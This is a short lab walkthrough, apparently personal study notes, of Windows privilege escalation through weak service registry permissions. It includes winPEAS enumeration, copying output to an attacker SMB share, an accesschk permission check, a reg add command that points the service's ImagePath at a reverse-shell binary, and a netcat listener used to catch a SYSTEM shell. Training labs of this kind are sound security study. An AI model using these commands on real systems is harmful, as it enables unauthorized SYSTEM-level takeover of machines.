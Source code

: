 1x3 Service - Weak Registry Permissions

## Service - Registry

```bash
.\winPEASany.exe ansi quiet servicesinfo > wpeas_services_op.txt
copy C:\PrivEsc\wpeas_services_op.txt \\10.9.4.127\kali\wpeas_services_op.txt
cat wpeas_services_op.txt
```
Identified 1 service mis-configuration

![6c3a14d4ac28104f6cf400dfb225c763.png](../_resources/b180268cdc9b41458a9a41407031812b.png)

```bash
sc qc regsvc
```
![516648b196b8c83350fdab2f9ee311ef.png](../_resources/3f9e64e76f884359a9571074578f6362.png)

```bash
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```
![6007d58ab2d74e4afe4f39427ba86e61.png](../_resources/4b3c9c9f279f4b64be8606181be4d571.png)

```bash
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

![4c902045c0231755885a69dd377ec689.png](../_resources/012fe1dd9331492094be21dfd828529a.png)

```bash
sudo nc -nvlp 53
net start regsvc
```
![b8d0f2bb99b165a3d0d1dde3fde713cf.png](../_resources/812ba1fcc4a745f48d08833ea0f2da3e.png)

**Got the System**

![1b3603364baa33778c0894cc89307305.png](../_resources/8d0bf2519f054059b93ae7554651180c.png)


